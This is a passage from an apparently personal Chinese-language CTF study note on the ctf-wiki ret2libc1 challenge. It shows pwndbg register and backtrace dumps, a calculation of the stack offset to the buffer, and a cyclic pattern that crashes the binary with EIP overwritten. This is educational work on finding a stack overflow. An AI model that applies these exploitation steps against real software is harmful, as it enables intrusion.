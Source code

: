         07:001c│ eax 0xffffcf3c ◂— 0x0
        ──────────────────────────────────────────────────────────────────────────[ BACKTRACE ]───────────────────────────────────────────────────────────────────────────
         ► f 0 0x804867e main+102
           f 1 0xf7de7ee5 __libc_start_main+245
           f 2 0x80484f1 _start+33
        ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
        ```

        在寄存器[REGISTERS]中我们可以看到s的地址是`0xffffcf3c`，对于ESP的地址`0xffffcf20`的偏移是`0x1c`，这与我们在IDA中所看到的是一致的。同时，注意到EBP的地址`0xffffcfa8`，经过小学二年级的加减法即可得出EBP和ESP的偏移是`0x88`，那EBP与s的偏移也就是`0x88-0x1c = 0x6c`了，在IDA中却看到`[ebp-64h]`，不李姐

    - pwnbdg

      这个我暂时没用太明白（），写完了去看看pwndbg的documents

      - 首先生成点垃圾字符

        ```shell
        pwndbg> cyclic 200
        aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
        ```

      - 再次运行程序，输入生成的垃圾字符

        ```shell
        pwndbg> r
        Starting program: /home/nova/Desktop/CTF/ctf-wiki/ret2libc/ret2libc1 
        RET2LIBC >_<
        aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
        
        Program received signal SIGSEGV, Segmentation fault.
        0x62616164 in ?? ()
        LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
        ──────────────────────────────────────────────────────────────────────────[ REGISTERS ]───────────────────────────────────────────────────────────────────────────
         EAX  0x0
         EBX  0x0
         ECX  0xf7fb4580 (_IO_2_1_stdin_) ◂— 0xfbad2288
         EDX  0xffffd004 —▸ 0xf7fe7b00 ◂— push   eax /* 'Pj' */
         EDI  0xf7fb4000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1ead6c
         ESI  0xf7fb4000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1ead6c
         EBP  0x62616163 ('caab')
         ESP  0xffffcfb0 ◂— 'eaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
         EIP  0x62616164 ('daab')
        ────────────────────────────────────────────────────────────────────────────[ DISASM ]────────────────────────────────────────────────────────────────────────────
        Invalid address 0x62616164
        ```
